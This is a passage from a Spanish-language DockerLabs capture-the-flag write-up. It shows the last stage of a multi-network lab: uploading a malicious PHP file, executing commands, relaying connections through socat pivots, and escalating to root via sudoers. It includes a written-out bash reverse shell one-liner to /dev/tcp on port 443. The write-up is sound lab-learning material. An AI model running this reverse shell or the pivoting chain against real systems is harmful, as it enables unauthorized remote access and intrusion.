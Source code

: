 Comprobamos que nos deja subir el fichero y que no hay ningún tipo de restricción.

![subiendo fichero pwned con código php malicioso](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/51d42d1c-fc1e-4947-ba9d-2ba7dfd8f123)

En este punto, solo nos queda meternos en el fichero PHP que acabamos de subir dentro del directorio `/uploads` y probaremos a ejecutar un comando cualquiera como `whoami`.

![ejecutando comando whoami](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/feb2031b-9dd6-4444-aed8-f5388db748cb)

Al poder ejecutar comandos remotamente, vamos a enviarnos una *reverse shell*. Para poder llegar a nuestra máquina de atacantes, deberemos de utilizar *socat* de nuevo. En primer lugar, la *reverse shell* la enviaremos hacia la **30.30.30.2** por el puerto *443*. La **20.20.20.3**, redirigirá las conexiones que le vengan por el puerto *443* hacia la **20.20.20.2** por el puerto *442*. Por último, esta redirigirá las conexiones que le vengan por el puerto *442* hacia la **10.10.10.1** por su puerto 441.

Lo primero que tenemos que hacer es, pasarnos el binario del *socat* a la **20.20.20.3**.

![transfiriendo socat a la tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/7ad7e652-7ace-4740-9ed0-06ba998a30b5)

Ahora, redirigiremos las comunicaciones con *socat*.

![redirigiendo conexiones con socat](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/7d1f1c67-7edd-4945-816c-4bd6e1883c75)

## Acceso a la tercera máquina

Con esto montado, nos pondremos en escucha por el puerto *441*.

![en escucha por el puerto 441](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/eee9cfc1-36ae-454e-8145-536c255af8d8)

Por último enviaremos una *reverse shell* a la **30.30.30.2** por el puerto *443*.

```
bash -c "bash -i >%26/dev/tcp/30.30.30.2/443 0>%261"
```

Y al ejecutar la petición con la *reverse shell*, veremos como nos hemos podido conectar a la máquina víctima.

![obteniendo shell desde la última máquina](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/f1ae5f30-ef07-4c5c-b142-c620c9e65c90)

Dentro de la máquina víctima, buscaremos por binarios *SUID*.

![binarios suid máquina tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/629b2d35-b731-43c0-8d4d-badd97c2a1a8)

## Rooteando la tercera máquina

Al no encontrar nada, vamos a ver los permisos que tenemos a nivel de *sudoers*.

![permisos a nivel de sudoers tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/85f133b4-947c-435e-a392-343a06df7897)

Con este binario, nos podemos aprovechar para escalar privilegios y tener acceso como *root* de la siguiente manera.

![escalando privilegios máquina tercerca interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/9d562bf2-10c7-4c8e-a31c-e229fd148094)

De esta manera, hemos podido llegar al final de este laboratorio.
